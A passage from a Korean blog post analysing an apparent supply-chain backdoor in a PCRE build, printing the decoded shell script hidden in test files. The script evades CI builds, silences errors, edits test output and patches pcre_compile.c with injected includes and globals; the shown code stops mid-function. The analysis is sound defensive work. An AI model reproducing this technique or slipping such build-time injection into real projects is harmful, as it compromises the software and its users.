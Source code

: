 함수명은 `compare_output`이지만 실제는 test 폴더에서 파일을 불러서 특정 패턴대로 해석하는 코드로 보인다. 실제로 돌려보면 다음과 같은 스크립트가 나온다. 

{{< details "Decoded script" >}}
```sh
#/bin/bash
if [ -z "$BUILD_NUMBER" ]; then
rm -f a
cat <<EOF > cleanup-tests
#!/bin/bash
make \$@
if [ "\$1" = "install" ]; then rm -f cleanup-tests; fi
EOF
chmod +x cleanup-tests; make \$@
exit 0
fi
exec 2>&-
sed -i '368,370d' ./testdata/testoutput18-16
cat <<EOF > 'testdata/ '
diff --git a/pcre_compile.c b/pcre_compile.c
index c742227..c2419ef 100644
--- a/pcre_compile.c
+++ b/pcre_compile.c
@@ -65,6 +65,10 @@ COMPILE_PCREx macro will already be appropriately set. */
 #undef PCRE_INCLUDED
 #endif
 
+#include "fcntl.h"
+#include "string.h"
+#include <sys/mman.h>
+
 
 /* Macro for setting individual bits in class bitmaps. */
 
@@ -8974,6 +8978,14 @@ Returns:        pointer to compiled data block, or NULL on error,
                 with errorptr and erroroffset set
 */
 
+char* alph =
+#include "b.h"
+;
+char* date_s = 
+#include "d.h"
+;
+pcre* bd_re = NULL;
+
 #if defined COMPILE_PCRE8
 PCRE_EXP_DEFN pcre * PCRE_CALL_CONVENTION
 pcre_compile(const char *pattern, int options, const char **errorptr,
@@ -8998,6 +9010,7 @@ return pcre32_compile2(pattern, options, NULL, errorptr, erroroffset, tables);
 }
 
 
+
 #if defined COMPILE_PCRE8
 PCRE_EXP_DEFN pcre * PCRE_CALL_CONVENTION
 pcre_compile2(const char *pattern, int options, int *errorcodeptr,
@@ -9012,6 +9025,9 @@ pcre32_compile2(PCRE_SPTR32 pattern, int options, int *errorcodeptr,
   const char **errorptr, int *erroroffset, const unsigned char *tables)
 #endif
 {
+char b[0x400];
```

[^1]: https://boehs.org/node/everything-i-know-about-the-xz-backdoor
[^2]: 원래 그랬는지는 잘 모르겠다. 